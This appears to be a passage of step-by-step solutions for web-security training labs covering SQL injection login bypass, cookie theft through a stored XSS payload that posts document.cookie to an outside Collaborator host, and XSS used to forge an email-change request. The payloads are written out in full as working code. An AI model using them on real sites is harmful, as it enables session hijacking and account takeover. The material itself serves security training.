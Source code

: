 ### Lab: SQL injection vulnerability allowing login bypass

1.  Use Burp Suite to intercept and modify the login request.
2.  Modify the `username` parameter, giving it the value: `administrator'--`

## Cross-Site Scripting (XSS)

### Lab: Exploiting cross-site scripting to steal cookies

1.  Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
2.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3.  Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:  
    `<script>  
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {  
    method: 'POST',  
    mode: 'no-cors',  
    body:document.cookie  
    });  
    </script>`  
    This script will make anyone who views the comment issue a POST request to `burpcollaborator.net` containing their cookie.
4.  Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5.  Take a note of the value of the victim's cookie in the POST body.
6.  Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

### Lab: Exploiting XSS to perform CSRF

1.  Log in using the credentials provided. On your user account page, notice the function for updating your email address.
2.  If you view the source for the page, you'll see the following information:
    
    -   You need to issue a POST request to `/my-account/change-email`, with a parameter called `email`.
    -   There's an anti-CSRF token in a hidden input called `token`.
    
    This means your exploit will need to load the user account page, extract the [CSRF token](https://portswigger.net/web-security/csrf/tokens), and then use the token to change the victim's email address.
3.  Submit the following payload in a blog comment:  
    `<script>  
    var req = new XMLHttpRequest();  
    req.onload = handleResponse;  
    req.open('get','/my-account',true);  
    req.send();  
    function handleResponse() {  
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];  
        var changeReq = new XMLHttpRequest();  
        changeReq.open('post', '/my-account/change-email', true);  
        changeReq.send('csrf='+token+'&email=test@test.com')  
    };  
    </script>`  
    This will make anyone who views the comment issue a POST request to change their email address to `test@test.com`.
